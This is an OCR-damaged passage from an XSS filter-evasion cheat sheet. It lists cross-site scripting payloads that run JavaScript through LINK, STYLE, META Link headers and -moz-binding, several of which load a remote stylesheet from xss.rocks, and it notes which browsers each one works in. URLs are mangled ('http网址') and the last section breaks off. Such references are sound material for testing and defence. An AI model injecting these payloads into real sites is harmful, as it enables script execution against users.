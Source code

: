 ## STYLE sheet

```js
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

## Remote style sheet
Using something as simple as a remote style sheet you can include your XSS as the style parameter can be redefined using an embedded expression. This only works in IE and Netscape 8.1+ in IE rendering engine mode. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet examples they use the body tag, so it won’t work unless there is some content on the page other than the vector itself, so you’ll need to add a single letter to the page to make it work if it’s an otherwise blank page:

```js
<LINK REL="stylesheet" HREF="http网址xss.rocks/xss.css">
```

## Remote style sheet part 2
This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:

```js
<STYLE>@import'http网址xss.rocks/xss.css';</STYLE>
```

## Remote style sheet part 3
This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1 spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no different than in the HTTP header saying Link: <http网址xss.rocks/xss.css>; REL=stylesheet) and the remote style sheet with my cross site scripting ## vector is running the JavaScript, which is not supported in FireFox:

```js
<META HTTP-EQUIV="Link" Content="<http网址xss.rocks/xss.css>; REL=stylesheet">
```

## Remote style sheet part 4
This only works in Gecko rendering engines and works by binding an XUL file to the parent page. I think the irony here is that Netscape assumes that Gecko is safer and therefor is vulnerable to this for the vast ## majority of sites:

```js
<STYLE>BODY{-moz-binding:url("http网址xss.rocks/xssmoz.xml#xss")}</STYLE>
```

## STYLE Tags with Broken-up JavaScript for XSS
This XSS at times sends IE into an infinite loop of alerts:
